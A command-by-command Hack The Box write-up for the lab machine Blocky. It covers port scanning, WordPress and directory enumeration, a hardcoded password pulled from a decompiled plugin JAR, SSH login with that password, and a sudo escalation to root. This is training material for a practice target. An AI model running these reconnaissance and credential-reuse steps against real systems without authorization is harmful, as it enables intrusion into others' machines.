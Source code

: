 Here’s a clean, organized **walkthrough-style command reference** for **HTB: Blocky**, grouped by phase and including commands with brief explanations:

---

# 🧠 HTB: Blocky — Command Writeup

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.37
```
> Identifies ports 21 (FTP), 22 (SSH), 80 (HTTP), and 25565 (Minecraft, closed).

### 🔍 Targeted Service Enumeration
```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.37
```
> Finds FTP (ProFTPD 1.3.5a), SSH (OpenSSH 7.2p2), HTTP (Apache with WordPress 4.8).

---

## 🌐 Web & WordPress Enumeration

### 🧪 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.37 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php -t 40 -o scans/gobuster-root-medium
```
> Discovers important directories: `/wp-login.php`, `/plugins/`, `/phpmyadmin`, `/wiki`.

### 🔍 WordPress Scan
```bash
wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan
```
> Finds:
- WP version: 4.8
- User: `notch`
- `/wp-content/uploads/` listing enabled
- `/xmlrpc.php` accessible

---

## 📦 Plugin Enumeration & JAR Analysis

### 🔽 Download Java JAR Files from `/plugins/`
> Found by visiting `/plugins` in browser.

### 🧪 Decompile with jd-gui (GUI tool)
```bash
# No command—GUI-based tool
```
> `BlockyCore.jar` contains hardcoded MySQL password:  
`8YsqfCTnvxAUeduzjNSXe22`

---

## 🔓 Shell as notch

### 🧪 Attempt SSH Login with Found Credentials
```bash
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```

### 📄 Capture User Flag
```bash
cat ~/user.txt
```

---

## 🪜 Privilege Escalation to root

### 🔍 Check sudo Rights
```bash
sudo -l
```
> notch can run **ALL commands as root**.

### 🔁 Elevate to Root
```bash
sudo su -
```

### 🏁 Capture Root Flag
```bash
cat /root/root.txt
```